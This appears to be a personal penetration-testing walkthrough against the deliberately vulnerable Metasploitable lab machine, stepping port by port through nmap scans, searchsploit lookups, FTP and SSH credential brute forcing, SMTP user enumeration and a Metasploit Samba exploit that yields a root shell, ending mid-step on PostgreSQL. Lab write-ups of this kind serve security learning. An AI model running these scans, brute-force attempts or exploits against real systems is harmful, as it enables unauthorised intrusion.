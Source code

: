### download the machine from https://www.vulnhub.com/entry/metasploitable-1,28/  
then luanch using vmware credintials are msfadmin:msfadmin
ip a to get machine 

Notes :
----

make sure your system is upgraded           
sudo apt update && sudo apt upgrade                 
sudo apt isntall exploitdb 


scan the target using nmap 
--
Nmap -sV -Sc 192.168.1.9

get 12 open ports (21 -22-23-25-53-80-139-445-3306-5430-8009)
 
  
now lets walkthough each port and see what we can do (sepratly and combined ):
----

PORT  ::  STATE  ::  SERVICE ::  VERSIO
  
21/tcp :: open :: ftp ::   ProFTPD 1.3.1  
  ----

perform the command "searchsploit ProFTPD 1.3.1 " to check if the service is vulnerable
  
Exploits: No Results

try "searchsploit ProFTPD 1.3. " 
  
found some intersting result like " ProFTPd IAC 1.3.x - Remote Command Execution | linux/remote/15449.pl"
  
run the command " searchsploit -m linux/remote/15449.pl "   to mirror the exploit which is  source code written in Perl 
  
nano 15449.pl
  
taking some time try to understand the code and verify that's not malicous
  ----
using the interpreter python to verfiy ech hexa variable 
  
i DECIDED TO Import this source code to metasploit As module if you don't know how 
watch this video for it >> https://www.youtube.com/watch?v=l7mwIvT5YNo

the result was'nt pleasent :::Metasploit is not detecting the scrpit  
  --
i've tried alot but doesn't work
  
searching for the issu found that this exploit does not written as metasploit module so 
  
msf would have no idea what to do with it
  
you can see this article  https://github.com/rapid7/metasploit-framework/issues/12825

so i decided to run the exploit as it is using perl interpreter 
  --
typeing perl 15549.pl <ip target> <my ip> target type

it appeared that this script does not have vuln for the exact ProFTPD 1.3.1  So it fails to exploit the service 

so i've moved to another approched " brute forcing the service for weak credintials " 
  --
using Nmap Engine 
nmap <tagetip> 21 --script =ftp-brute.nse

took 600s to find valid credintial of user:user 

checking to see if this ftp supports excuting command through " SITE EXEC command" 
it seems like it does not support that 

so far we got valid credintaial for ftp with no ablility to excute commands or existance of sensitve files
 perform another intensive scan for the ftp , found potential vuln
 
 CVE-2011-4130 CVSS 9.0
 ---
 
allows remote authenticated users to execute arbitrary code , let's give it a shot 
 unfortentally there are no proof of concept or working exploit availabe online also there is no metasploit module for it
 
 so let's move on
 
 
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
----
trying the same credintial of fttp for ssh it works :D 

  now we can excute files on the machine  
 
 get step back and use nmap scropt engine for inteinsive scanning for port22
 
 nmap -sV -sC 192.168.1.3 -p 22 --script vuln get some result 
 
 CVE-2011-1013 CVSS 7.2
---
 allows local users to cause a denial of service (system crash)

 CVE-2010-4478 CVSS 7.5
---
 which allows remote attackers to bypass the need for knowledge of the shared secret, and successfully authenticate
 
  unfortentally there are no proof of concept or working exploit availabe online also there are no metasploit module for them
 
 so i've moved to another approched " brute forcing the service for root credintials " using metaspolit
 ---
 msf > use auxiliary/scanner/ssh/ssh_login
 
msf auxiliary(ssh_login) > set RHOSTS 10.0.0.27
 
RHOSTS => 192.168.1.3
 
msf auxiliary(ssh_login) > set USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/root_userpass.txt
 
USERPASS_FILE => /usr/share/metasploit-framework/data/wordlists/root_userpass.txt
 

 msf auxiliary(ssh_login) > run
 
 no promising results , so lets move forward 
 
23/tcp   open  telnet      Linux telnetd
---
 nmap

  nmap -sV -sC 192.168.1.3 -p 23 --script vuln get some result
 saerchsplit for telnet linux 
 coulden't verfy that the service is vulnerable 

 25/tcp   open  smtp        Postfix smtpd
 -----
 
 nmap -sV -sC 192.168.1.3 -p 23 --script vuln get some result
 the service is vurnalble to two mitm attacks (which i skiped) 
 enumerating the user using smpt-user-enum tool getting me this result 
 --
 
 192.168.1.3:25 Users found: , backup, bin, daemon, distccd, ftp, games, gnats, irc, libuuid, list, lp, mail, man, mysql, news, nobody, postfix, postgres, postmaster, proxy, service, sshd, sync, sys, syslog, user, uucp, www-data

bruteforcing the password using hydra but authentication not enabled on the server 
 
 53/tcp   open  domain      ISC BIND 9.4.2
----
 using nmap engine found CVE-2008-0122 CSSV 10.0 vulnebilitys that causes Denial Of ServiceExecute CodeMemory corruption

 
 There are not any metasploit modules related to this CVE or any working online exploit
 
 
 
 80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.10 with Suhosin-Patch)
---
 running nmap , searching edb and mfs couldn't verfy vulnerability for the exact version of the service
 
 139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
      445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
----
 saerching exploit database for Samba getting me MSF module that returns a root shell 
 > use exploit/multi/samba/usermap_script
> set RHOST 192.168.1.3
> exploit 

 $whoami 

 root 
 sudo/etc/shadow :D 
 
 3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
 ---
 Could not find any vulnerabilities matching this version
 
 5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
---
 
searching the MSF i found a module for remote shell 
 
 
 
 
 
 
